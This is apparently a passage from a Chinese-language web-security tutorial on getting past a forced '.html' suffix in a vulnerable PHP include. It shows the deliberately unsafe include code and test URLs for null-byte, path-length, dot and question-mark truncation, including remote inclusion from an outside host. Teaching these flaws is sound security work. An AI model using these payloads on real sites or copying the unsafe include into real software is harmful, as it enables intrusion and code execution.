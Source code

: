 ```php
<?php
     $filename = $_GET['filename'];
     include($filename.”.html”);    // 在文件名后面强制增加html后缀
?>
```

包含文件失败：

![image-20220805085328234](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805085328234.png)

#### %00截断

%00会被认为是结束符，后面的数据会被直接忽略，导致扩展名截断。

例如：`http://127.0.0.1/test.php?filename=xiaohua.txt%00`

**利用条件：**

1. magic_quotes_gpc=off

2. PHP<5.3.4

#### 路径长度截断

操作系统存在最大路径长度的限制。可以输入超过最大路径长度的目录，这样系统就会将后面的路径丢弃，导致扩展名截断。

**利用条件**

Windows下目录的最大路径256B

Linux下目录的最大路径长度为4096B（根据服务器操作系统决定）

测试payload：

```
http://127.0.0.1/include.php?filename=1.txt/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

成功绕过，执行1.txt的内容`<?php echo phpinfo() ?>`。

![image-20220805085949121](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805085949121.png)

#### 点号截断

点号截断适用于Windows系统，当点号的长度大于256B时，就可以造成扩展名截断。

![image-20220805090229043](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805090229043.png)

#### 问号绕过

因为问号会分隔实际的 URL 和参数

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt?`
